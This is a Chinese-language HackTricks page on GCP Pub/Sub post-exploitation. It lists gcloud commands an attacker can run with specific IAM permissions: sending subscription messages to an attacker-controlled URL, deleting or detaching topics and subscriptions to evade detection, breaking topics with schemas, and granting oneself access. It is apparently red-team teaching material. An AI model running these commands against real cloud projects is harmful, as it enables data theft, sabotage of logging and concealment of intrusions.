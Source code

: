 # GCP - Pub/Sub 后期利用

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Pub/Sub

有关 Pub/Sub 的更多信息，请查看以下页面：

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

在主题中发布消息，适用于 **发送意外数据** 并触发意外功能或利用漏洞：
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

有助于防止订阅接收消息，可能是为了避免被检测。
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

有助于防止订阅接收消息，可能是为了避免被检测。\
即使有订阅附加在上，也可以删除主题。
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

使用此权限更新主题的一些设置以干扰它，例如 `--clear-schema-settings`、`--message-retention-duration`、`--message-storage-policy-allowed-regions`、`--schema`、`--schema-project`、`--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

授予自己执行任何先前攻击的权限。

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

在网络服务器中获取所有消息：

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

创建一个订阅并使用它来 **拉取消息**：
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**删除订阅** 可能对破坏日志处理系统或类似的东西有用：
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

使用此权限更新某些设置，以便消息存储在您可以访问的地方（URL、Big Query 表、Bucket）或仅仅是为了干扰它。

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

授予自己执行之前评论的任何攻击所需的权限。

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

将一个模式攻击到一个主题，以便消息不符合它，从而导致主题中断。\
如果没有任何模式，您可能需要创建一个。

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

这可能看起来像是在删除一个模式，你将能够发送不符合该模式的消息。然而，由于模式将被删除，实际上没有消息会进入主题。因此这是**无用的**：
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

授予自己执行之前评论的任何攻击所需的权限。

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

这将创建所有未确认消息的快照并将它们放回订阅中。对于攻击者来说不是很有用，但这里是：
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
